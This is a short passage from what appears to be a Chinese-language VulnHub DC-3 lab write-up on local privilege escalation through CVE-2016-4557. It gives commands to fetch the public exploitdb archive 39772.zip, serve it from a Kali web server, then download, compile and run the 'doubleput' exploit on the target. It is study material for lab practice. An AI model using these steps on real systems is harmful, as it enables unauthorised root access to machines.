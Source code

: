 存在提权漏洞 CVE-2016-4557

找个 EXP 用用
```bash
apt install libfuse-dev
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip
```

EXP 传给靶机,kali 启个 web
```
python -m SimpleHTTPServer 80
```

靶机上下载,并运行
```
wget 192.168.141.134/39772.zip
unzip 39772.zip && cd 39772 && tar -xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit && sh compile.sh
./doubleput
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC3/19.png)
